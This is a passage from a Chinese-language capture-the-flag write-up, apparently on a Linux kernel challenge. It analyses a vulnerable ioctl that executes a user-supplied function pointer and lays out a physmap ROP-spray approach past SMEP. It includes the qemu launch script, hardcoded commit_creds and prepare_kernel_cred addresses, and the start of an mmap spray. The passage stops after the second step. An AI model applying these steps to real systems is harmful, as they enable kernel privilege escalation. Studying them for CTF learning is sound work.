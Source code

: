 ### release函数分析
![](4.png)
在release函数中有一个raw_spin_lock函数调用，这是一个自旋锁，用于在底层处理多线程或多进程访问同一个对象的竞争问题。与本题的关系不大，深入的分析参见[资料](https://blog.csdn.net/DroidPhone/article/details/7395983?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165718771616781685317780%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165718771616781685317780&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-7395983-null-null.142^v31^control,185^v2^control&utm_term=raw_spin_lock&spm=1018.2226.3001.4187)。

之后还有一个pv_ops，使用IDA打开vmlinux之后发现这是一个函数指针数组。其第85个元素指向``__raw_callee_save___native_queued_spin_unlock``函数，应该也是和内核的互斥锁有关，这里不进行详细分析。

open、read、write函数与release函数基本上差不多，不做分析。看来对我们有用的就只有ioctl函数了。

### 漏洞利用

顺便提一句，这道题的bzImage坑了我两天时间，用Linux官方的extract_vmlinux没有办法解压成vmlinux，直到安装了vmlinux-to-elf之后才得以解决，原来这个bzImage是用zstd压缩的，必须安装zstd包才能解压。。。。。。

本题的ioctl函数中实际上是将传入的第三个参数作为函数指针，在内核中执行。而要知道本题开启了SMEP保护，因此不能传入一个用户态的指针，而应该是内核态指针。

前面我们提到了direct mapping area这块内核空间，其能够与用户态访问相同的物理地址空间，因此我们可以利用这块空间，在用户态布置好ROP，然后让内核访问这里的空间，就相当于是执行用户态中的ROP。但是话说回来，我们不知道具体哪一块用户态地址和哪一块内核地址指向相同，这就需要我们使用滑梯（slider）这种手段了，通过大量的无效ROP来提升我们攻击成功的概率。

#### Step 1: 硬编码函数地址

```bash
#!/bin/sh
qemu-system-x86_64 \
        -m 256M \
        -cpu kvm64,+smep,+smap \
        -smp cores=2,threads=2 \
        -kernel bzImage \
        -initrd ./rootfs.cpio \
        -nographic \
        -monitor /dev/null \
        -snapshot \
        -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
        -no-reboot
```

上面是起qemu的命令，可以看到有nokaslr选项，说明没有开启kaslr，我们通过vmlinux就可以获取到关键函数的内核地址。

```c
const u_int64_t commit_creds = 0xFFFFFFFF810C92E0;
const u_int64_t prepare_kernel_cred = 0xFFFFFFFF810C9540;
```

#### Step 2: 申请大空间

接下来，我们需要申请很大的空间，存放ROP链。这里每一次申请大小均为一页的大小，其中mmap函数fd参数为-1表示不需要文件描述符，以匿名的方式分配空间。

```c
map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```
